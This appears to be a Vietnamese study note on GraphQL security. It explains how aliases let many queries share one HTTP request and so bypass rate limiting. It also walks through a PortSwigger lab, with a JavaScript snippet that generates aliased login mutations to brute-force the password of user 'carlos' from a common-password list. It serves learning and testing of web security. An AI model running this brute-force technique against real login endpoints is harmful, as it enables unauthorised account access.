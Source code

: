 
## Bypassing rate limiting using aliases

Thông thường, các đối tượng GraphQL không thể chứa nhiều thuộc tính có cùng tên. Bí danh cho phép bạn bỏ qua hạn chế này bằng cách đặt tên rõ ràng cho các thuộc tính mà bạn muốn API trả về. Bạn có thể sử dụng bí danh để trả về nhiều phiên bản của cùng một loại đối tượng trong một yêu cầu.

Trong khi các bí danh có mục đích hạn chế số lượng lệnh gọi API mà bạn cần thực hiện, chúng cũng có thể được sử dụng để tấn công điểm cuối GraphQL.

Nhiều điểm cuối sẽ có một số loại bộ giới hạn tốc độ để ngăn chặn các cuộc tấn công brute force. Một số bộ giới hạn tốc độ hoạt động dựa trên số lượng yêu cầu HTTP nhận được thay vì số lượng thao tác được thực hiện trên điểm cuối. Vì các bí danh cho phép bạn gửi nhiều truy vấn trong một tin nhắn HTTP duy nhất nên chúng có thể vượt qua hạn chế này.

Ví dụ đơn giản dưới đây hiển thị một loạt các truy vấn bí danh kiểm tra xem mã giảm giá của cửa hàng có hợp lệ hay không. Hoạt động này có khả năng bỏ qua giới hạn tốc độ vì đây là một yêu cầu HTTP duy nhất, mặc dù nó có khả năng được sử dụng để kiểm tra số lượng lớn mã giảm giá cùng một lúc.

```graphql
    #Request with aliased queries

    query isValidDiscount($code: Int) {
        isvalidDiscount(code:$code){
            valid
        }
        isValidDiscount2:isValidDiscount(code:$code){
            valid
        }
        isValidDiscount3:isValidDiscount(code:$code){
            valid
        }
    }
```

---

### Ví dụ: Bypassing GraphQL brute force protections

https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass

Mục tiêu: brute-force đăng nhập carlos nhưng web có rate limit

=> Tạo các aliase để 1 request nhưng thử được nhiều password

dùng đoạn script để tạo các aliase:

```js
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
    }
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```
